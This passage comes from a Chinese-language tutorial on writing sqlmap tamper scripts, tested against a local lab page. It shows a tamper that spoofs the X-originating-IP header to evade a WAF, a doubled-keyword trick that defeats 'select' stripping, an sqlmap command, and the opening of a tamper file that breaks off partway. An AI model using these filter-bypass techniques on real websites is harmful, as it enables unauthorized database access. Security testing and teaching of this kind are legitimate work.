 Priority定义脚本的优先级（默认lowest即可）  

tamper是主要的函数，接受的参数为payload和kwargs  

返回值为替换后的payload。比如这个例子中就把引号替换为了\\  

```
def tamper(payload, **kwargs):
headers = kwargs.get("headers", {})
    headers["X-originating-IP"] = "127.0.0.1"
    return payload
```  

修改X-originating-IP 绕过Waf  

所以我们只需要仿造进行修改，即可写出我们的tamper  

我们来测试一下  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/5.png)  

我们修改源代码，关键词 替换为空  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/6.png)  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/7.png)  

OK，没毛病  

替换为空了，我们可以利用两个seleselectct 绕过  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/8.png)  

测试一下：  

```Sqlmap.py -u “http://127.0.0.1/news.php?id=1” --purge```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/9.png)  

已经注入不出来结果了，我们来写一个tamper  

利用replace函数进行替换字符  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/10.png)  

完整tamper：/books/config/7.[Pyhacker]Sql脚本编写  

```
#!/usr/bin/python
#-*- coding:utf-8 -*-

#默认开头
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW     #等级（LOWEST 最低级）

#可有可无
def dependencies():
    pass
